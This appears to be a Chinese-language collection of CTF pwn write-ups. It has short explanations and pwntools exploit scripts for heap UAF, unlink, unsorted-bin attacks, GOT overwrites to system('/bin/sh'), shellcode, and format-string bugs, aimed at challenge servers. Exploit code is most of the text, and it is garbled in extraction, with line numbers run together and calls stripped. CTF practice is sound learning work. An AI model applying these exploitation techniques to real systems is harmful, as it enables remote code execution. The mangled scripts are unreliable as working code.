







note-service2 数组越界、chunk数据结构 存在数组越界的漏洞，且NX保护关闭，堆栈可执行。思路：申请一些堆块并写入shellcode，将free函数的got表修指向堆块shell，调用该函数时运行shellcode。
⭐chunk 在程序的执行过程中，我们称由 malloc 申请的内存为 chunk 。这块内存在 ptmalloc 内部用 malloc_chunk 结构体来表示。c函数申请堆内存时，可以使用的内存的起始地址是从fd成员开始的，所以用户无法访问结构体的前两个成员。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 struct malloc_chunk {struct malloc_chunk * fd; struct malloc_chunk * bk;struct malloc_chunk * fd_nextsize; struct malloc_chunk * bk_nextsize;
当用户申请size大小的堆块时，在glibc中本质上是申请了size+16大小（64位系统中）的内存，因为要加上前两个成员。
例如：malloc(0x10)，申请了0x10大小的堆内存，本质上在glibc中申请了0x10+0x10=0x20大小的空间。malloc的堆块大小在glibc中会加上前两个成员的大小，所以当你分配一个堆内存时，堆内存的最小大小一定为0x20（0x10+0x10）。
chunk 的大小必须是 2 * SIZE_SZ 的整数倍。如果申请的内存大小不是 2 * SIZE_SZ 的整数倍，会被转换满足大小的最小的 2 * SIZE_SZ 的倍数。32 位系统中，SIZE_SZ 是 4；64 位系统中，SIZE_SZ 是 8。
现在我们想从 chunk0 的data区 jmp 跳到 chunk1 的 data 区执行新代码，那么我们 jmp short 后面的偏移为1+8+8+8=25=0x19，即\xeb\x19。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 from pwn import *'debug' 'amd64' )'223.112.5.156' ,65298 )def add (index,content ):"your choice>>" )"1" )"index:" )str (index))"size:" )"8" ) "content:" )def dele (index ):"your choice>>" )"4" )"index:" )str (index))0 ,"/bin/sh" )17 ,asm("xor rsi,rsi" )+b"\x90\x90\xeb\x19" ) 1 ,asm("mov eax, 0x3b" )+b"\xeb\x19" )2 ,asm("xor rdx, rdx" )+b"\x90\x90\xeb\x19" )3 ,asm("syscall" ).ljust(7 ,b"\x90" )) 0 )
secret_file 汇编、复制栈溢出
1 2 3 4 5 6 7 8 9 from pwn import *from hashlib import sha256'61.147.171.105' , 53191 )0x100 )b"ls;cat flag.txt;" .ljust(27 , b" " ) + sha256(junk).hexdigest().encode("utf-8" )
supermarket 堆UAF、realloc 1 2 realloc原型是extern void *realloc (void *mem_address, unsigned int newsize)
realloc如果空间不够的话重新分配，当chunk0下面有其他chunk时，就会丢弃原来位置的chunk并free 它，然后在最后面再申请一个大于原size的chunk；当chunk0后面没有其他chunk时，就会原地扩充大小。
思路：通过realloc让Node0->description指向Node2，通过修改Node0->description的值从而修改Node2->description指向的内存区域。这个值指向atoi的got地址，从而泄露atoi的地址并修改它为system的got地址。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 from pwn import *"debug" ,arch="i386" ,os="linux" )"61.147.171.105" ,50277 )"./supermarket" )"./libc.so.6" )'atoi' ]def add1 (index,size,content ):'your choice>>' ,'1' )'name:' ,str (index))'price:' ,'10' )'descrip_size:' ,str (size))'description:' ,content)def del1 (index ):'your choice>>' ,'2' )'name:' ,str (index))def list1 ():'your choice>>' ,'3' )def edit1 (index,size,content ):'your choice>>' ,'5' )'name:' ,str (index))'descrip_size:' ,str (size))'description:' ,content)0 ,0x80 ,'a' *0x10 )1 ,0x20 ,'b' *0x10 )0 ,0x90 ,'000' )2 ,0x20 ,'d' *0x10 )b'2' .ljust(16 ,b'\x00' ) + p32(20 ) + p32(0x20 ) + p32(atoi_got)0 ,0x80 ,payload)'2: price.20, des.' )4 ))'atoi' ]'system' ]2 ,0x20 ,p32(system_addr))'your choice>>' ,'/bin/sh\x00' )
4-ReeHY-main-100⭐ unlink 参考：https://www.codenong.com/cs109514415/
1 2 3 4 5 6 7 8 9 P：为要取出的chunk指针（指向chunk头）0x18 0x10 0x18 == P && P-bk + 0x10 ==P)，即检测P的下一个chunk的上一个chunk是否为P和P的上一个chunk的下一个chunk是否为P,0x18 +0x18 ==P && P - 0x10 + 0x10 ==p) 为真。满足执行unlink条件。0x18 = P->bk ==> P - 0x18 + 0x18 = P - 0x10 ==> P = P - 0x10 0x10 = P->fd ==> P - 0x10 + 0x10 = P - 0x18 ==> P = P - 0x18 0x18 。如果程序将chunk的指针（chunk中用户可编辑区的指针）存储在全局bass段，我们就能得到一个bass地址mem = mem - 0x18 ，结合对mem指针进行编辑的程序，进而来实现bass段任意写入。
https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/unlink/
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 from pwn import *'61.147.171.105' ,57614 )def welcome ():'name: \n$' )'demo' )def create (index,size,content ):'*********\n$' )'1' )'Input size\n' )str (size))'Input cun\n' )str (index))'Input content\n' )def delete (index ):'*********\n$' )'2' )'Chose one to dele\n' )str (index))def edit (index,content ):'*********\n$' )'3' )'to edit\n' )str (index))'the content\n' )def exp (): 0x45390 0x6f690 0x602018 0x602100 0x4006d0 0 ,0x20 ,'/bin/sh\x00' )2 ,0x100 ,'BBBB' )1 ,0x100 ,'CCCC' )2 )1 )0 )0x101 )0x18 )0x10 )b'a' *(0x100 -4 *8 )0x100 )0x110 )2 ,0x210 ,payload)1 )1 ) 1 )8 ) 1 )2 ,payload)1 ,p64(puts_plt)) 2 )6 )b'\x00' *2 )-puts_off+system_off1 ,p64(system_addr))0 )
babyfengshui 堆溢出

首先创建一个堆块用来存放description信息，用*S指向它；再创建一个堆块，用*V2指向它，前四个字节存放description的地址，后面用来存放名字name；最后将bss段的ptr[0]指向*V2这个堆块。并将byte_804b069自加1，这个值相当于记录目前一共申请了多少个user。

*本题给的libc有问题
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 from pwn import *'i386' ,os='linux' ,log_level='debug' )'./babyfengshui' )"61.147.171.105" ,55228 )def add_user (size,name,text_length,text ):"Action: " )str (0 ))"size of description: " )str (size))"name: " )"text length: " )str (text_length))"text: " )def del_user (user_index ):"Action: " )str (1 ))"index: " )str (user_index))def disp_user (user_index ):"Action: " )str (2 ))"index: " )str (user_index))def update_description (user_index,text_length,text ):"Action: " )str (3 ))"index: " )str (user_index))"text length: " )str (text_length))"text: " )0x10 ,'name0' ,0x10 ,'text0' )0x10 ,'name1' ,0x10 ,'text1' )0 )0x80 ,'name2' ,0x80 ,'text2' ) b"/bin/sh\x00" +b"a" *(0xa0 - len ("/bin/sh\x00" )) + p32(elf.got['free' ]) 2 ,len (payload),payload)1 )'description: ' )4 ))0x070750 0x03a940 1 ,4 ,p32(system_addr))2 )
Noleak⭐ unlink、unsortedbin attack unsorted_bin是双链表结构，FIFO(先进先出)。arena中fd指向链表首，bk指向链表尾。并且其中的chunk遵循头部插入尾部取出的规则。值得一提的是，首chunk的bk和尾chunk的fd都指向arena。取出尾chunk时会将arena中的bk指向尾chunk的fd，也就是上一个chunk的位置，同时会将上一个chunk的fd改写为arena的地址。这意味着，如果在取出尾部chunk前，我们如果将尾部chunk的bk修改为tartget_addr-0x10（fd被改掉不会直接报错，但是可能会破坏链表），那么在取出后，target的值就会被覆盖为main_arena+0x58的地址。
将**__malloc_hook赋值为某个函数的地址，那么，执行 malloc**时，系统就会去调用那个函数。

1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 from pwn import *"amd64" , os = 'linux' ,log_level='debug' )"61.147.171.105" ,61691 )def add_node (size,data ):"Your choice :" )"1" )"Size:" )str (size))"Data: " )def update_node (index,size,data ):"Your choice :" )"3" )"Index:" )str (index))"Size:" )str (size))"Data: " )def delete_node (index ):"Your choice :" )"2" )"Index:" )str (index))0x601040 0x601020 0x100 ,b"a" *0x100 )0x100 ,b"b" *0x100 )0 ) + p64(0x101 ) 0x18 ) + p64(buf_addr-0x10 ) + 0xe0 *b"1" + p64(0x100 ) + p64(0x110 )0 ,0x110 ,payload) 1 )0 ) + p64(0 ) + p64(0 )0 ) + p64(0 ) + p64(0 ) + p64(0x20 )0 ,len (payload),payload) 0x100 ,b"c" *0x100 )0x100 ,b"d" *0x100 )2 )0 ) + p64(buf_addr + 0x20 ) 2 ,len (payload),payload) 0x100 ,b"e" *0x100 ) 0 ) * 4 b"\x10" 1 ,len (payload),payload)0 ,len (shellcode),shellcode)6 ,len (payload),payload)"Your choice :" )"1" )"Size:" )"1" )
1000levevls vsyscall 在开启了ASLR的系统上运行存在PIE保护的程序，意味着所有的地址都是随机化的。然而在某些版本的系统中这个结论并不成立，原因是存在着一个神奇的vsyscall机制。它地址是固定不变的，即使开启了PIE也不会改变。
1 2 cat /proc/self/maps

栈溢出
2. Hint 中system地址存储在rbp-0x110位置

1. Go 中输入0，rbp-0x110遗留的system地址

1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 from pwn import *"amd64" , os = 'linux' ,log_level='debug' )'./100levels' )"./libc.so" )0x4526a 'system' ]print r.recvuntil("Choice:\n" )'2' )print r.recvuntil("Choice:\n" )'1' )print r.recvuntil("How many levels?\n" )'0' )print r.recvuntil("Any more?\n" )str (one_gadget-system))def calc ():print r.recvuntil("Question: " )int (r.recvuntil(" " ))print r.recvuntil("* " )int (r.recvuntil(" " ))print r.recvuntil("Answer:" )str (ans))for i in range (99 ):print r.recvuntil("Answer:" )'a' * 0x38 + p64(0xffffffffff600000 ) * 3
hacknote UAF
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 from pwn import *"i386" , os = 'linux' ,log_level='debug' )"./hacknote" )"61.147.171.105" ,57590 )"libc_32.so.6" )def BK ():def Add (size,content ):b'Your choice :' ,b'1' )b'Note size :' ,str (size))b'Content :' ,content)def Print (index ):b'Your choice :' ,b'3' )b'Index :' ,str (index))def Del (index ):b'Your choice :' ,b'2' )b'Index :' ,str (index))0x20 , "zzzz" ) 0x20 , "zzzz" )0 ) 1 ) 0x804862B 'puts' ]0x8 , payload) 0 ) 4 )) - libc.sym['puts' ]2 ) "system" ]b"||sh" 0x8 , payload) 0 )
frame faking
思路：auth函数存在栈溢出，但是只能溢出到ebp，但是auth函数和main函数存在两次leave;ret 。使用frame faking，使rip指向&input-0x4位置，其中布置好后门地址。
1 2 3 4 5 6 7 8 9 10 11 from pwn import *import base64'debug' , arch = 'amd64' , os = 'linux' )0x08049284 0x0811EB40 "./123" )'a' *4 +p32(system_addr)+p32(input_addr)
dubblesort 逻辑错误发生溢出 read读取数据到缓冲区前，未初始化，没有使用‘\x00’截断，造成数据泄漏；
代码中，scanf函数接收的数据格式为无符号整型%u。“+”和“-”即是合法字符，又不会修改栈上的数据，同时不会影响之后的输入。

1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 from pwn import * "i386" , os = 'linux' ,log_level='debug' ) './dubblesort' ,env={"LD_PRELOAD" : "./libc_32.so.6" }) './libc_32.so.6' ) 0x1AE244 'a' *0x1C 'name :' ,payload)4 )) - off 'system' ] '/bin/sh' ).next () print 'libc_base=' ,hex (libc_base) print 'system_addr=' ,hex (system_addr) 'sort :' ,str (35 )) for i in range (24 ): 'number :' ,str (0 )) 'number :' ,'+' ) for i in range (9 ): 'number :' ,str (system_addr)) 'number :' ,str (binsh_addr))
echo_back⭐⭐ 格式化字符串、利用scanf内部结构写数据 太难= =
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 from pwn import *'debug' 1 if local:'./echo_back' ,env={"LD_PRELOAD" : "./libc.so.6" })'./libc.so.6' )else :'61.147.171.105' , 63480 )'./libc.so.6' )0xC6C 0xD93 '_IO_2_1_stdin_' ]'__libc_start_main' ]'system' ]'/bin/sh' ).next ()def setName (name ):'choice>> ' ,'1' )'name:' ,name)def echoBack (string,length='7\n' ):'choice>> ' ,'2' )'length:' ,length)def end ():'choice>> ' ,'3' )'%19$p\n' )'0x' )int (sh.recvline(),16 )-0xF0 0x8 *7 '%13$p\n' )'0x' )int (sh.recvline(),16 )-0x9C -main_addr'%12$p\n' )'0x' )int (sh.recvline(),16 )+0x8 '%16$hhn' )0x83 )*3 +p64(main_ret_addr)+p64(main_ret_addr+0x18 )'\n' ,payload)for i in range (0 , len (payload) - 1 ):'choice>>' ,'2' )'length:' ,'' )'\n' ,payload)